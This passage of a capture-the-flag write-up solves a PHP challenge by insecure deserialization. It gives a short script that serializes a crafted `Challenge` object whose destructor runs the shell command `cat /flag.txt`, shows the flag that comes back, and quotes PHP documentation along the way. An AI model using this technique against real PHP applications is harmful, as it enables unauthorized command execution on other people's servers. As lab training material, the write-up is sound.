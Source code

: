 The code above gets printed for every user, admin or not.

### The solution

Since in the code of the `Challenge` class we can execute arbitrary shell commands, we could try executing `cat /flag.txt`. First we need to instantiate a new object, which we did (Test Challenge). Then we need to delete it, which will call the `__destruct()` magic method, which will call the `stop()` function. If we previously set `$c->stop_cmp = 'cat /flag.txt'`, we should be all set. Still we need a way to manipulate the object...

**`array_push()`**

```php
array_push(array &$array, mixed ...$values): int
```

**array_push()** treats `array` as a stack, and pushes the passed variables onto the end of `array`. The length of `array` increases by the number of variables pushed. Has the same effect as:

```php
<?php
$array[] = $var;
?>
```

**`exec` in PHP**

```php
exec(string $command, array &$output = null, int &$result_code = null): string|false
```

* `command`: The command that will be executed.
* `output`: If the `output` argument is present, then the specified array will be filled with every line of output from the command. Trailing whitespace, such as `\n`, is not included in this array. Note that if the array already contains some elements, **exec()** will append to the end of the array. If you do not want the function to append elements, call [unset()](https://www.php.net/manual/en/function.unset.php) on the array before passing it to **exec()**.
* `result_code`: If the `result_code` argument is present along with the `output` argument, then the return status of the executed command will be written to this variable.

**To recap**

We just needed to serialize a specially crafted `Challenge` object and to put it into the file that would be uploaded...

```php
$c = new Challenge('bogus challenge', "just trying to print the flag, nothing to see here");
$c->stop_cmd = 'cat /flag.txt';
print(serialize($c));
```

Then, after uploading this, we load `index.php` and we'll get:

># Welcome to METACTF
>
>User Backup file: 
>
>
>
>Load User
>
>Stoping challenge!flag{nice_yuo_got_the_unserialize_flag!}
